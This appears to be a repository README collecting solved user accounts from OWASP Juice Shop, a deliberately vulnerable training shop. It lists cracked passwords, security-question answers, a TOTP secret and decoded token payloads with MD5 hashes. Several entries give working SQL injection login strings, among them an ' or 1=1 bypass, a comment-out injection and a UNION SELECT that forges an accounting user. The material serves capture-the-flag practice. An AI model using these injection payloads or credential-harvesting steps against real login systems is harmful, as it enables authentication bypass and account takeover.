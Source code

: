 # JuiceShop-UsersData
Users Data in Juice-Shop and Others



admin@juice-sh.op
Password = admin123
{
  "status": "success",
  "data": {
    "id": 1,
    "username": "",
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500",
    "role": "admin",
    "deluxeToken": "",
    "lastLoginIp": "undefined",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-10-19 13:00:04.308 +00:00",
    "updatedAt": "2020-10-19 13:59:01.826 +00:00",
    "deletedAt": null
  },
  "iat": 1603116006,
  "exp": 1603134006
}
*********************************



mc.safesearch@juice-sh.op
Password = Mr. N00dles
{
  "status": "success",
  "data": {
    "id": 8,
    "username": "",
    "email": "mc.safesearch@juice-sh.op",
    "password": "b03f4b0ba8b458fa0acdc02cdb953bc8",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-29 12:22:43.104 +00:00",
    "updatedAt": "2020-11-29 12:22:43.104 +00:00",
    "deletedAt": null
  },
  "iat": 1606655036,
  "exp": 1606673036
}
**************************************



amy@juice-sh.op
Password = K1f.....................

{
 "status": "success",
  "data": {
    "id": 11,
    "username": "",
    "email": "amy@juice-sh.op",
    "password": "030f05e45e30710c3ad3c32f00de0473",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-05 10:51:02.978 +00:00",
    "updatedAt": "2020-12-05 10:51:02.978 +00:00",
    "deletedAt": null
  },
  "iat": 1607165772,
  "exp": 1607183772
}

***************************************


bjoern.kimminich@gmail.com
but you can use  this email too  => bjoern@owasp.org
Password = bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=
Security answer = Zaya
bjoern@juice-sh.op 
Security answer = West-2082 
Zip = 25436 => West-2082 

{
  "status": "success",
  "data": {
    "id": 13,
    "username": "",
    "email": "bjoern@owasp.org",
    "password": "9283f1b2e9669749081963be0462e466",
    "role": "deluxe",
    "deluxeToken": "efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/12.jpg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-22 11:44:09.327 +00:00",
    "updatedAt": "2020-12-22 11:44:09.327 +00:00",
    "deletedAt": null
  },
  "iat": 1608637987,
  "exp": 1608655987
}

****************************************



jim@juice-sh.op
Password = ncc-1701
Security Questiob = Samuel

{
"status": "success",
  "data": {
    "id": 2,
    "username": "",
    "email": "jim@juice-sh.op",
    "password": "e541ca7ecf72b8d1286474fc613e5e45",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-25 14:39:09.207 +00:00",
    "updatedAt": "2020-11-25 14:39:09.207 +00:00",
    "deletedAt": null
  },
  "iat": 1606320235,
  "exp": 1606338235
}

****************************************



bender@juice-sh.op
Password = Stop'n'Drop
You can use for enter = ' or 1=1 and email like('%bender%');--
{
  "status": "success",
  "data": {
    "id": 3,
    "username": "",
    "email": "bender@juice-sh.op",
    "password": "0c36e517e3fa95aabf1bbffc6744a4ef",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-25 14:39:09.207 +00:00",
    "updatedAt": "2020-11-25 14:39:09.207 +00:00",
    "deletedAt": null
  },
  "iat": 1606321399,
  "exp": 1606339399
}


******************************************

chris.pike@juice-sh.op
Enter for = chris.pike@juice-sh.op'--

******************************************


uvogin@juice-sh.op
security answer = Silence of the Lambs

{
  "status": "success",
  "data": {
    "id": 16,
    "username": "",
    "email": "uvogin@juice-sh.op",
    "password": "05f92148b4b60f7dacd04cceebb8f1af",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-25 11:55:39.720 +00:00",
    "updatedAt": "2020-12-25 11:55:39.720 +00:00",
    "deletedAt": null
  },
  "iat": 1608897572,
  "exp": 1608915572
}



********************************************

morty@juice-sh.op
Security answer = Snowball => 5N0wb41L

********************************************


acc0unt4nt@juice-sh.op
SQL ınjection is = ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2020-08-16 14:14:41.644 +00:00' as 'createdAt', '2020-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

"data": {
    "id": 15,
    "username": "",
    "email": "acc0unt4nt@juice-sh.op",
    "password": "12345",
    "role": "accounting",
    "deluxeToken": "123",
    "lastLoginIp": "1.2.3.4",
    "profileImage": "/assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-08-16 14:14:41.644 +00:00",
    "updatedAt": "2020-08-16 14:33:41.930 +00:00",
    "deletedAt": null
  },
  "iat": 1610024731,
  "exp": 1610042731
}

***********************************************

wurstbrot@juice-sh.op
2FA Token = IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH => generate with authenticator.
